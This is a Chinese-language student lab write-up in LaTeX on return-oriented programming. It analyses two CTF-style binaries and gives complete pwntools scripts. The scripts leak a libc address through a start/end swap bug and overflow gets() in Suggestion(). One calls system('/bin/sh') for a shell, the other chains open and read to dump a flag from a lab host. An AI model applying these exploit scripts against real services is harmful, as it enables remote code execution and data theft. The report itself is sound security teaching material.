\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/4/23}
\usepackage{ctex}
\usepackage{graphicx}
\title{ROP}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{rop1}
    选取C文件中的main函数主体部分进行分析(...表示省略):
    \begin{itemize}
        \item main函数
        \begin{lstlisting}{language=C}

int main()
{	...
	scanf("%d", &length);
	global.system_addr = *(unsigned int *)(*(unsigned int *)((char *)scanf + 2));
	...
	for(int i = 0; i < length + 1; i++){
		char temp = getchar();
		global.buffer[i] = temp;
	}
	...
	scanf("%d%d", &start, &end);
	...
	if(start <= end){
	...
	}
	else{
		int it = start;
		start = end;
		end = it;
	}

	for(int i = start; i < end; i++){
		write(1, &global.buffer[i], 1);
	}
	puts("");
	Suggestion();
	return 0;
}

        \end{lstlisting}
        \item Suggestion函数
        \begin{lstlisting}{language=C}
void Suggestion()
{
	puts("Any suggestion...");
	char buf;
	gets(&buf);
}
        \end{lstlisting}
  
         
    \end{itemize}
    结合程序保护措施:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{1.png}
    	\end{center}
    \end{figure}
    可以看出,程序虽然对length大小进行了控制,但当start > end时只是简单的进行了交换,我们可以利用这点将global.system\_addr的值打印出来,也就是每次装载Libc后\_\_isoc99\_scanf的实际地址,再通过查询system函数的偏移计算出system函数的实际地址,然后利用Suggestion函数的栈溢出跳转执行system("bin/sh"),即可达到目的。 \par
    查看\_\_isoc99\_scanf的偏移值如下:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{2.png}
    	\end{center}
    \end{figure}
    查看system函数的偏移值如下:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{3.png}
    	\end{center}
    \end{figure}
    查看global.system\_addr的存放地址,为0x0804a0c0,且global.buffer的存放地址为0x0804a080,刚好差0x40个字节,需要注意的是第一次输入时缓冲区留有输入length后的换行符,真正的buffer起始地址是0x0804a081:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{4.png}
    	\end{center}
    \end{figure}
    最后需要的信息是Suggestion函数填入padding的长度,栈顶地址0xffffd58f,返回地址存放地址0xffffd59c,padding长度为0xd:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{5.png}
    	\end{center}
    \end{figure}
    最后需要注意的是接收\_\_isoc99\_scanf的地址时最低字节为0,需要补齐最低位,最终脚本如下:
    \begin{itemize}
    	\item 脚本1
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40007)
io.recvuntil("length:")
io.sendline(b'64')
io.recvuntil("String:")
io.send(b'/bin/sh' + b'\x00' + b'A'*0x34 + b'ABCD')
io.recvuntil("string:")
io.sendline(b"70 1")
io.recvuntil("ABCD")
scanf_addr = u32(io.recv(4))
scanf_addr = scanf_addr * int(0x100)
system = p32(scanf_addr + int(0x0003d3d0) - int(0x00063e00)) 
binsh = p32(0x0804a081)
io.send(b'A'*0xd + system + b'AAAA' + binsh)
io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{6.png}
    	\end{center}
    \end{figure}
   

\section{rop2}
    与rop1不同的是,此题system函数无法被调用,因此只能采用如下步骤:首先调用open函数打开flag文件,然后调用read函数将内容写到global.buffer里面,最后由程序本身的write函数将flag内容打印出来。\par
    因此,我们首先需要准备open函数和read函数在libc库中的偏移,分别是0x000e68c0,0x000e6e40,查阅得知,open函数的参数如下:char *file\_name, int flags,此处file\_name = 'flag',flags = 0表示只读。需要在第一次栈溢出时按从左到右的填入参数,最右边的参数地址最高。open函数的返回地址填main函数中的指令地址:0x08048660,如下图:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{7.png}
    	\end{center}
    \end{figure}
    回到main函数之后,执行同样的操作,read函数的参数如下: int fd, char *address, int max\_length,第一项fd是open函数的返回值,第一次读取固定为3,第二项填入写入的地址,填入0x0804a082即可,第三项是读入最大长度,flag一般不会大于32字节,故填32。 \par
    再次返回main函数,只需要打印足够的长度即可,start和end分别设为48,1,最终脚本如下:
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40008)
io.recvuntil("length:")
io.sendline(b'64')
io.recvuntil("String:")
io.send(b'flag' + b'\x00'+ b'F'*0x37 + b'ABCD')
io.recvuntil("string:")
io.sendline(b"70 1")
io.recvuntil("ABCD")
scanf_addr = u32(io.recv(4))
scanf_addr = scanf_addr * int(0x100)

opens = p32(scanf_addr + int(0x000e68c0) - int(0x00063e00)) 
arg1_open = p32(0x0804a081)
ret_addr = p32(0x08048660)
io.sendline(b'A'*0xd + opens + ret_addr + arg1_open + p32(0))

io.recvuntil("length")
io.sendline(b'1')
io.send(b'A')
io.recvuntil("string:")
io.sendline(b"2 1")
reads = p32(scanf_addr + int(0x000e6e40) - int(0x00063e00)) 
arg2_read = p32(0x0804a082)
io.sendline(b'A'*0xd + reads + ret_addr + p32(3) + arg2_read + p32(32))

io.recvuntil("length")
io.sendline(b'1')
io.recvuntil("String:")
io.send(b'A')
io.recvuntil("string:")
io.sendline(b"48 1")
flag = io.recv(48)
print(f"This is flag : {flag}")
io.sendline(b'Last Time')

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{8.png}
    	\end{center}
    \end{figure}

   
   
   
   
   
   
   
   
   
 

\end{document}
